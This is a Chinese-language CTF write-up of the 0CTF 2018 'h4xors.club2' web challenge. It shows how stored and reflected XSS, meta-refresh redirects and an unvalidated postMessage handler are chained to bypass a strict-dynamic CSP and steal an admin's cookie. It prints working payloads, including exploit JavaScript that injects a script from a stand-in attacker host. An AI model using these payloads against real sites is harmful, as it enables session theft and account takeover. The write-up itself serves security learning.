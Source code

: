 ```yaml
---
title: TCTF/0CTF2018 h4xors.club2 Writeup
date: 2018-04-10 01:40:19
tags:
- postMessage
- xss
- CSP
---
```


本来早就该完成的club2 wp因为清明节的关系拖了一段时间，club2这个题目用了一很精巧的postMessage漏洞。

<!--more-->



# h4xors.club2 #

一个非常有意思的题目，做这题的时候有一点儿钻牛角尖了，后面想来有挺多有意思的点。先分享一个非常秀的非预期解wp。

[http://www.wupco.cn/?p=4408&from=timeline](http://www.wupco.cn/?p=4408&from=timeline)

在分享一个写的比较详细的正解

[https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed](https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed)

下面顺着思路一起来看看这题。

```
Get document .cookie of the administartor.
h4x0rs.club
backend_www got backup at /var/www/html.tar.gz   这个从头到尾都没找到

Hint: Get open-redirect first, lead admin to the w0rld!
```

站内差不多是一个答题站点，用了比较多的第三方库，站内的功能比较有限。

1、profile.php可以修改自己个人信息
2、user.php/{id}可以访问自己的个人信息
3、report.php没什么可说的，向后台发送请求，需要注意的是，直接发送user.php，不能控制
4、index.php接受msg参数

还有一些特别的点

1、user.php页面的CSP为

```
Content-Security-Policy:default-src 'none'; img-src * data: ; script-src 'nonce-c8ebe81fcdccc3ac7833372f4a91fb90'; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/;
```

非常严格，只允许nonce CSP的script解析

index.php页面的CSP为
```
Content-Security-Policy:script-src 'nonce-120bad5af0beb6b93aab418bead3d9ab' 'strict-dynamic';
```

允许sd CSP动态执行script（这里的出发点可能是index.php是加载游戏的地方，为了适应CSP，必须加入`strict-dynamic`。）

2、站内有两个xss点

第一个是user.php的profile，储存型xss，没有任何过滤。

第二个是index.php的msg参数，反射性xss，没有任何过滤，但是受限于xss auditor


顺着思路向下

因为user.php页面的CSP非常严格，我们需要跳出这个严格的地方，于是可以通过插入meta标签，跳转到index.php，在这里进一步操作
```
<meta http-equiv="refresh" content="5;https://h4x0rs.club/game/?msg=Welcome">
```

当然这里我们也可以利用储存型xss和页面内的一段js来构造a标签跳转。

在user.php的查看profile页面，我们可以看到
```
if(location.hash.slice(1) == 'report'){
    document.getElementById('report-btn').click();
}
```

当我们插入
```
<a href='//xxx.xx/evil.html' id=report-btn>
```

并请求
```
/game/user.php/ddog%23report
```

那么这里的a标签就会被点击，同样可以实现跳转。



接着我们探究index.php，这里我们的目标就是怎么能够绕过sd CSP了，当时的第一个想法是`<base>`，通过修改当前页面的根域，我们可以加载其他域的js（听起来很棒！

可惜如果我们请求
```
https://h4x0rs.club/game/?msg=<base href="http://xxxx">
```

会被xss auditor拦截，最后面没办法加`/">`，一个非常有趣的情况出现了

```
https://h4x0rs.club/game/?msg=%3Cbase%20href=%22http://115.28.78.16
```

![image.png-7.8kB][4]

最后的`</h1>`中的`/`被转换成了路径，前面的左尖括号被拼入了域名中，后面的右尖括号闭合标签...一波神奇的操作...

不过这里因为没法处理尖括号域名的事情，所以置于后话不谈。

我们继续讨论绕过sd CSP的思路，这种CSP已知只有一种办法，就是通过现在已有的js代码构造xss，这是一种在去年blackhat大会上google团队公布的CSP Bypass技巧，叫做Script Gadgets。

[https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)

这里的漏洞点和ppt中的思路不完全一致，但核心思路一样，都是要利用已有js代码中的一些点来构造利用。

站内关于游戏的代码在app.js中的最下面，加载了client.js
```
function load_clientjs(){
    var s = document.createElement('script');
    document.body.appendChild(s);
    s.defer = true;
    s.src = '/game/javascripts/client.js';
}
```

client.js中的代码不多，有一些值得注意的点，就是客户端是通过`postMessage`和服务端交互的。

![image.png-94.1kB][5]

而且所有的交互都没有对来源的校验，也就是可以接受任何域的请求。

**ps: 这是一个呆子不开口在2016年乌云峰会上提到的攻击手法，通过postMessage来伪造请求**

这样我们可以使用iframe标签来向beckend页面发送请求，通过这种方式来控制返回的消息。

这里我盗用了一张别的wp中的图，来更好的描述这种手法

原图来自[https://github.com/l4wio/CTF-challenges-by-me/tree/master/0ctf_quals-2018/h4x0rs.club](https://github.com/l4wio/CTF-challenges-by-me/tree/master/0ctf_quals-2018/h4x0rs.club)

![image.png-112.7kB][6]

这里我们的exploit.html充当了中间人的决赛，代替客户端向服务端发送请求，来获取想要的返回

这里我们可以关注一下client.js中的recvmsg

![image.png-323.9kB][7]

如果我们能控制data.title，通过这里的dom xss，我们可以成功的绕过index.php下的sd CSP限制。

值得注意的是，如果我们试图通过index.php页面的反射性xss来引入iframe标签的话，如果iframe标签中的链接是外域，会被xss auditor拦截。

所以这里需要用user.php的储存型xss跳出。这样利用链比较完整了。

下面是利用思路：

1、首先我们需要注册两个账号，这里使用ddog123和ddog321两个账号。

2、在ddog321账号中设置profile公开，并设置内容为

```
<meta http-equiv="refresh" content="0;https://evil_website.com">
```

3、在evil_website.com（这里有个很关键的tips，这里只能使用https站，否则会爆引入混合数据，阻止访问）的index.html向backend发送请求，这里的js需要设置ping和badges，在badges中设置title来引入js

```
<iframe name=game src='//backend.h4x0rs.club/backend_www/'></iframe>

<script>
window.addEventListener("message", receiveMessage, false);
var TOKEN,nonce;
function receiveMessage(event)
{
console.log("msg");
data = event.data;
if(data.cmd =='ping'){
    TOKEN = data.TOKEN;
    nonce = data.nonce;
    game.postMessage(data,"*");
}
if(data.cmd =='badges'){
    console.log('badges');
    console.log(data);
    TOKEN = data.TOKEN;
    data.level = 1;
    data.title = '\'"><script src="//evil_website.com/1.js" defer></scr'+'ipt>';
    console.log(data.title);
    // data.title = '\'"><meta http-equiv="set-cookie" content="HolidayGlaze=123;">';
    game.postMessage(data,"*");
}
}
```

4、在ddog123账户中设置profile为

```
<meta http-equiv="refresh" content="0;https://h4x0rs.club/game/?msg=1%3Ciframe%20name=game_server%20src=/game/user.php/ddog321%20%3E%3C/iframe%3E">
```

5、最后在1.js中加入利用代码，发送report给后台等待返回即可。




  [1]: http://static.zybuluo.com/LoRexxar/bz7gl9fs2q89pvezn6xm03xb/image.png
  [2]: http://static.zybuluo.com/LoRexxar/io54g5yal3om63po5w4e9qvn/image.png
  [3]: http://static.zybuluo.com/LoRexxar/4wljy4njhwsq583n1cpz8rvi/image.png
  [4]: http://static.zybuluo.com/LoRexxar/elpojcabch5pk77o79de6m12/image.png
  [5]: http://static.zybuluo.com/LoRexxar/fij89ai2u0ls69du1qkc7fl2/image.png
  [6]: http://static.zybuluo.com/LoRexxar/o0jxd89x9r60btxhsln4vum2/image.png
  [7]: http://static.zybuluo.com/LoRexxar/9xqbie6lw0xwoe6ooz0s2dsb/image.png
